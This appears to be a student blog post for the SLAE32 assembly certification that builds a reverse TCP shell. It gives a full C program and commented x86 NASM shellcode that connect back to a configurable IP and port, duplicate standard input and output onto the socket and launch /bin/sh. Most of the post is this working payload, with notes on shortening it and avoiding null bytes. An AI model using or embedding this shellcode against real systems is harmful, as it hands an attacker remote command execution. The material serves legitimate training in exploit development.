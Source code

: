 ```yaml
---
layout: page
title: SLAE32 Assignment 2
---
```


<div class="well" markdown="1">
<h2>SLAE32 Assignment 2: Reverse TCP Shell</h2>

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1009

The second assignment is to create a reverse tcp shell, with a configurable IP and port. In the first assignment, I opted for features over brevity. In this case, I aim to make the shellcode as short as possible.

Based on the [last assignment](/SLAE32/slae32-assignment1), one important structure that I will need is the `sockaddr_in` struct. The first byte will again be a 2, the second byte will be 0, the next two bytes will be the port, the next four bytes will be the IP address, then there will be 8 null bytes. This is what will get passed to the connect system call. Of course, I wanted to verify this as well as find the socketcall number, so again I created a C program to perform the reverse shell.

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>
#include <arpa/inet.h>
#include <unistd.h>

int main(){
	char *execargs[] = {"/bin//sh", 0};
	struct sockaddr_in sa;
	sa.sin_family = AF_INET;
	sa.sin_addr.s_addr = inet_addr("127.0.0.1");
	sa.sin_port = htons(9999);
	int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
	connect(sock, (const struct sockaddr *) &sa, 16);
	dup2(sock,0);
	dup2(sock,1);
	dup2(sock,2);
	execve(execargs[0], execargs, 0);
}
```

Running it through gdb as before shows that the socketcall number is 3. This can be confirmed by looking at /usr/include/linux/net.h

```
#define SYS_CONNECT     3               /* sys_connect(2)               */
```
Based on this information, as well as what was learned in the first assignment, I was able to write the assembly code. For whatever reason, this one took a lot more debugging. In any case, here is the assembly file, with copious comments to explain each step.

```nasm
; Filename: shell_bind_fork_tcp.nasm
; Author:  Mark Shaneck
; Website:  http://markshaneck.com
;
; Purpose: The purpose of this shellcode connect back
; to a host and port of our choosing

global _start

section .text
_start:

	; First things first, call socket
	; need to call socketcall with args 1, and domain (2), type (1), protocol(6)
	push byte 6 ; protocol = IPPROTO_TCP
	push byte 1 ; type = SOCK_STREAM
	push byte 2 ; domain = AF_INET
	xor eax, eax
	mov al, 102 ; syscall - socketcall
	xor ebx,ebx
	mov bl, 1   ; socket sockcall type
	mov ecx, esp ; pointer to the args
	int 0x80

	; eax now contains the socket file descriptor

	; let's dup the stdio FDs
	pop ecx ; we are going to loop from 2 to 0, and 2 happens to be on the top of the stack
	mov ebx,eax ; put socket file descriptor in ebx
dup:
	mov al, 63 ; dup2 syscall
	int 0x80
	dec ecx
	cmp cl,0xff
	jne dup

	; now we call connect
	; we need the socket file descriptor, a pointer to the sockaddr structure and a 16
	; perform a jmp-call-pop to get the port number so that it is easily configurable
	jmp short get_sockaddr

got_sockaddr:
	pop ecx               ; put address of sockaddr struct into ecx
	mov edx,[ecx+2]
	push edx              ; push the ip address next
	mov dx, word [ecx]    ; put the port into ebx
	shl edx,16            ; move the port number to the higher order bytes
	add dl,2              ; put the socket family in there
	push edx

	mov edx, esp ; now ebx has the address of the sockaddr_in struct
	push byte 0x10
	push edx
	push ebx
	mov ecx, esp
	xor ebx,ebx
	mov bl, 3   ; connect sockcall type
	mov al, 102 ; syscall - socketcall
	int 0x80

	; we should now be connected

	; execve the shell using stack method
	; let's execute sh
	xor eax,eax
	push eax
	push 0x68732f2f
	push 0x6e69622f

	mov ebx,esp ; pointer to "/bin//sh"
	push eax
	mov edx,esp ; env pointer (NULL)

	push ebx
	mov ecx,esp ; pointer to [pointer to "/bin//sh", 0]

	mov al, 11 ; execve syscall
	int 0x80

get_sockaddr:
	call got_sockaddr
	sockaddr: db 0x27, 0x0f, 0x7f, 0x00, 0x00, 0x01
	; should we worry about the nulls in the ip addr?
```

Compiling and pasting the shellcode into the shellcode stub resulted in a functioning reverse tcp shell.

{% include image name="functional_shellcode.png" width="100%" %}

Total shellcode length was exactly 100 bytes, which was an improvement from my initial straightforward attempt, which was somewhere around 120 bytes. I tried to break the arbitrary 100 byte boundary, but I ran out of way to shorten it any further. I could probably save a few more bytes by placing the ip address and port in the middle of the program and not using the jmp-call-pop technique to get its location, but I wanted to leave that in for ease of configuration.

Some of the improvements I made in this shellcode, as compared to assignment 1, aside from extra features, was pushing hardcoded bytes onto the stack directly, instead of loading them into registers and pushing those. The other major improvement I made to save some space was to rearrange the functions. Namely, putting `dup2` just after `socket` allowed for reuse of some registers, as the values were already in them.

One limitation of the shellcode is in the IP address. It is placed at the end and it is not encoded. That means that you cannot put an IP address as the destination that contains a null byte. At least, that is, if you need to avoid null bytes. As you can see in my example, I have two null bytes, since I was connecting to 127.0.0.1. However, I didn't want to add the additional complexity of encoding, plus any sort of simple encoding would require some byte to be disallowed from the IP address. The idea that I had was that you could put an encoding byte just after the IP address, and have the shellcode use that byte to decode the address. That way, it could be configurable, along with the IP, and so you could choose a byte that isn't in the address you were connecting to. Perhaps I'll implement that for bonus points. :)
